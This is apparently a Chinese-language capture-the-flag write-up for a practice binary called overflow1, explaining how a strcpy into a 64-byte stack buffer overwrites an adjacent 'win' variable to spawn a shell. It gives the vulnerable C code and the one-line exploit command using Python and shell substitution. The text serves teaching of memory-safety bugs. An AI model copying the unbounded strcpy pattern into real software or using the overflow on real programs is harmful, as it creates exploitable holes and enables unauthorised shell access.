

# 代码审计

```
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
```

可以看到，如果变量win是1，就可以getshell，打印出的栈中



win紧接在strbuf后面，可以输入多一个覆盖win，从而改变win的值

>'a'*64+'\0x1'

就可以把 ```0x1``` 覆盖到栈中的win变量，从而修改win，getshell

# 利用

但是 ```0x1``` 不是可见字符，就不能直接在键盘上敲入

这时候就得需要利用一些功能把字符传入

比如python就可以打印任意字符 
```
print('\x01')
```
就实现了输入一个 ```0x1``` 的内容

因为这里的输入是紧跟在执行程序时的参数，所以可利用linux中反引号或$的功能

>$( )中放的是命令，相当于` `，例如todaydate=$(date +%Y%m%d)意思是执行date命令，返回执行结果给变量todaydate，也可以写为todaydate=`date +%Y%m%d`；

因此执行文件时如下

>➜  overflow1 ./overflow1 $(python -c "print('a'*64+'\x01')")

即可getshell